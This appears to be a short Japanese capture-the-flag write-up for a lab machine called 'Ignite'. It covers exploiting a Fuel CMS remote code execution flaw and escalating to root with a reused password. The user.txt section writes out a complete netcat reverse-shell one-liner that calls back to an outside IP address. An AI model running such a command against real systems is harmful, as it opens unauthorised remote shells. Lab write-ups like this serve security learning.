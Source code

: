 ```yaml
---
title: "Ignite"
date: 2024-03-16T11:39:35+09:00
draft: false
---
```


### user.txt

- searchsploit fuel CMS
  - RCE
  - URL とプロキシを設定しなおす必要アリ
  - ```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.127.137 1234 > /tmp/f```
- ```find / 2>/dev/null | grep flag.txt```

### root.txt

- sudo , crontab, linpeas も特になし
  - 細かく linpeas を見ていく
- password -> mememe みたいなのがある
- su で使えてしまう
